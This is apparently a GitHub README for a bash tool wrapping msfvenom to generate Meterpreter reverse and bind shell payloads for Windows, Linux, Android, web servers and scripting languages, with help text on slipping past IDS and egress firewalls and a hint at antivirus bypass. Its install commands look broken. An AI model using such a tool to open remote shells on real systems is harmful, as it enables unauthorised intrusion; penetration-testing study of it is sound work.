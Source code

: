 # Zacky_PayGen
A simple and usage payload generator tool for educational purpose.


A **quick** way to generate various "basic" Meterpreter payloads via `msfvenom` (part of the Metasploit framework).

<p align="center">
  <img src="https://img.fruugo.com/product/3/64/175799643_max.jpg" alt="Zacky_logo"/>
</p>


- - -


## About

MSFvenom Payload Creator to generate multiple types of payload.

**Fully automating**
The rest is to make the user's life as **easy as possible** 
**Note** 
If you want to bypass Antivirus see for more of my tools :)

- - -


## Install

+ Designed for **Kali Linux v2.x/Rolling** & **Metasploit v4.11+**.

```
$ sudo git clone https://github.com/Gesus-del/Zacky_PayGen/edit/Zacky_PayGen
$ chmod +x /usr/local/bin/Zacky_PayGen
```
### Kali-Linux

```
$ sudo bash Zacky_PayGen.sh                  
 [*] MSFvenom Payload Creator (Zacky_PayGen v0.1)

 [i] Missing TYPE or BATCH/LOOP mode

 Zacky_PayGen.sh <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
   Example: Zacky_PayGen.sh windows 192.168.1.10        # Windows & manual IP.
            Zacky_PayGen.sh elf bind eth0 4444          # Linux, eth0's IP & manual port.
            Zacky_PayGen.sh stageless cmd py https      # Python, stageless command prompt.
            Zacky_PayGen.sh verbose loop eth1           # A payload for every type, using eth1's IP.
            Zacky_PayGen.sh msf batch wan               # All possible Meterpreter payloads, using WAN IP.
            Zacky_PayGen.sh help verbose                # Help screen, with even more information.

 <TYPE>:
   + APK
   + ASP
   + ASPX
   + Bash [.sh]
   + Java [.jsp]
   + Linux [.elf]
   + OSX [.macho]
   + Perl [.pl]
   + PHP
   + Powershell [.ps1]
   + Python [.py]
   + Tomcat [.war]
   + Windows [.exe // .exe-service // .dll]

 Rather than putting <DOMAIN/IP>, you can do a interface and Zacky_PayGen will detect that IP address.
 Missing <DOMAIN/IP> will default to the IP menu.

 Missing <PORT> will default to 443.

 <CMD> is a standard/native command prompt/terminal to interactive with.
 <MSF> is a custom cross platform shell, gaining the full power of Metasploit.
 Missing <CMD/MSF> will default to <MSF> where possible.

 <BIND> opens a port on the target side, and the attacker connects to them. Commonly blocked with ingress firewalls rules on the target.
 <REVERSE> makes the target connect back to the attacker. The attacker needs an open port. Blocked with engress firewalls rules on the target.
 Missing <BIND/REVERSE> will default to <REVERSE>.

 <STAGED> splits the payload into parts, making it smaller but dependent on Metasploit.
 <STAGELESS> is the complete standalone payload. More 'stable' than <STAGED>.
 Missing <STAGED/STAGELESS> will default to <STAGED> where possible.

 <TCP> is the standard method to connecting back. This is the most compatible with TYPES as its RAW. Can be easily detected on IDSs.
 <HTTP> makes the communication appear to be HTTP traffic (unencrypted). Helpful for packet inspection, which limit port access on protocol - e.g. TCP 80.
 <HTTPS> makes the communication appear to be (encrypted) HTTP traffic using as SSL. Helpful for packet inspection, which limit port access on protocol - e.g. TCP 443.
 <FIND_PORT> will attempt every port on the target machine, to find a way out. Useful with stick ingress/engress firewall rules. Will switch to 'allports' based on <TYPE>.
 Missing <TCP/HTTP/HTTPS/FIND_PORT> will default to <TCP>.

 <BATCH> will generate as many combinations as possible: <TYPE>, <CMD + MSF>, <BIND + REVERSE>, <STAGED + STAGELESS> & <TCP + HTTP + HTTPS + FIND_PORT> 
 <LOOP> will just create one of each <TYPE>.

 <VERBOSE> will display more information.
$
```
